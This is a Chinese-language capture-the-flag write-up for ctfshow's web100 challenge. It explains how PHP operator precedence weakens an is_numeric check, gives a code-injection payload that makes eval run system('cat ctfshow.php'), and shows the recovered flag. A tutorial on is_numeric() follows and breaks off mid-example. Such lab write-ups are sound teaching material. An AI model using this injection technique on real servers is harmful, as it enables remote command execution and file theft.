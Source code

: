 由于这一题是`$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);`

所以只要$v1为数字即可，就可以用v2v3来构造payload,要使`eval("$v2('ctfshow')$v3");`能执行我们想要的函数，将('ctfshow')注释掉即可，另外v2中不能有`;`v3中必须有`;`这样直接构造如下payload即可：

payload:`/?v1=1&v2=system('cat ctfshow.php')/*&v3=*/;`

![web100flag](.\image_php\web100flag.png)

得到flag `b5a6cbd70x2d340c0x2d41450x2db3290x2db0bd15059f22` 这里出现0x2d直接将0x2d转换成字符后发现是`-`替换后得到`b5a6cbd7-340c-4145-b329-b0bd15059f22`提交`ctfshow{b5a6cbd7-340c-4145-b329-b0bd15059f22}`通过

### is_numeric()

> is_numeric()用于检查一个变量是否是数字或数字字符串，如果变量是数字或者是数字字符串（即可以转换为数字的字符串），函数返回 `true`；否则返回 `false`。
>
> #### 基本语法
>
> php
>
> ```php
> bool is_numeric ( mixed $value )
> ```
>
> - `$value`：要检查的值。
>
> #### 示例
>
> php
>
> ```php
> $var1 = 10;
> $var2 = "10";
> $var3 = "10.5";
> $var4 = "hello";
> 
> if (is_numeric($var1)) {
>     echo "var1 is numeric";
> } else {
>     echo "var1 is not numeric";
> }
> 
> if (is_numeric($var2)) {
>     echo "var2 is numeric";
> } else {
>     echo "var2 is not numeric";
> }
> 
> if (is_numeric($var3)) {